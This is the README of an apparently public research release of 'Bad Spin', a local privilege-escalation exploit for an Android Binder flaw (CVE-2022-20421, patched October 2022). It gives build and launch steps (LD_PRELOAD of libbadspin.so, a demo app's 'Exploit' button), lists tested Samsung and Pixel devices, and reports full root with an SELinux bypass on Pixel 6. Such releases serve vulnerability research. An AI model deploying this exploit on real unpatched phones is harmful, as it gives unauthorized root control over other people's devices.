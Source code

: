 # Bad Spin: Android Binder LPE

Author: Moshe Kol

Privilege escalation exploit from `unstrusted_app` for Android Binder vulnerability (CVE-2022-20421). The vulnerability is patched on Android's Security Bulletin of October 2022.

## Run from shell

1. Compile the `libbadspin.so` library by typing `make push` in the `src/` directory. This will also push the library to `/data/local/tmp`.
2. Run `adb shell`.
3. Run `LD_PRELOAD=/data/local/tmp/libbadspin.so sleep 1`. This will load the library and start the exploit.

## Run from demo app

1. Compile `libbadspin.so` by typing `make push` in the `src/` directory. This will copy the library to the `assets` directory for the demo Android app.
2. Compile the demo Android app in the `app/` directory. (You might need Android Studio to do this.)
3. Run the app and click on the "Exploit" button. 
4. Consume logs using: `adb logcat -s BADSPIN`

## Compilation options

You can pass the following variables to `make`:

- `VERBOSE=1` to increase verbosity.
- `TEST_VULN=1` to test the vulnerability without proceeding with the exploit.

## Tested devices

```
$ make list
0: Samsung Galaxy S22, Android 12 (6/2022), kernel 5.10.81
1: Samsung Galaxy S21 Ultra, Android 12 (3/2022), kernel 5.4.129
2: Google Pixel 6, Android 12 (5/2022), kernel 5.10.66
3: Google Pixel 6, Android 13 (9/2022), kernel 5.10.107
```
## Add device for test (without any modifications) if it fails changes will be needed.

Modify dev_config.h

device_configs[] = {

    {

    /* SP1A.210812.016.S901EXXU2AVF1 */

        .name = "Samsung Galaxy S22",

        .model = "SM-S901E",

        .android_version = 12,

        .android_security_patch.year = 2022,

        .android_security_patch.month = 6,

        .kernel_version = KERNEL_VERSION(5, 10, 81),

        .ram_offset = 0x28000000UL,
        
        

Full root and SELinux bypass for Pixel 6. For Samsung devices, the exploit achieves kernel R/W only.

## Known issues

The phone might crash on unsuccessful attempts. The exploit is unstable in the first few minutes after boot.

